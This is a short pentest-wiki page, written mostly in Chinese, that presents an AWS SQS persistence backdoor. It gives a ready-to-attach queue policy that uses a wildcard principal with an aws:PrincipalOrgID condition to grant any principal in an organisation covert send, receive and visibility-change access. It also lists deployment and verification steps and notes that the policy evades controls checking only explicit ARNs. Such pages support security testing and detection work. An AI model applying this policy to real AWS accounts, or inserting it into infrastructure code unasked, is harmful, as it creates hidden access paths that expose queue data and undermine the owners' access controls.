 # AWS - SQS OrgID Policy Backdoor

{{#include ../../../../banners/hacktricks-training.md}}

滥用 SQS 队列资源策略，使用条件 aws:PrincipalOrgID，悄悄授予属于目标 AWS Organization 的任何主体 Send、Receive 和 ChangeMessageVisibility 权限。这样会创建一个以组织为范围的隐藏路径，通常可以规避仅检查显式账号或角色 ARNs 或 star principals 的控制。

### Backdoor policy (attach to the SQS queue policy)
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "OrgScopedBackdoor",
"Effect": "Allow",
"Principal": "*",
"Action": [
"sqs:ReceiveMessage",
"sqs:SendMessage",
"sqs:ChangeMessageVisibility",
"sqs:GetQueueAttributes"
],
"Resource": "arn:aws:sqs:REGION:ACCOUNT_ID:QUEUE_NAME",
"Condition": {
"StringEquals": { "aws:PrincipalOrgID": "o-xxxxxxxxxx" }
}
}
]
}
```
### 步骤
- 使用 AWS Organizations API 获取组织 ID。
- 获取 SQS 队列 ARN，并设置队列策略（包括上述声明）。
- 从属于该组织的任意主体，在该队列发送并接收消息以验证访问权限。

### 影响
- 在指定的 AWS Organization 中，任何账户均可隐蔽地读取和写入 SQS 消息（组织范围访问）。

{{#include ../../../../banners/hacktricks-training.md}}
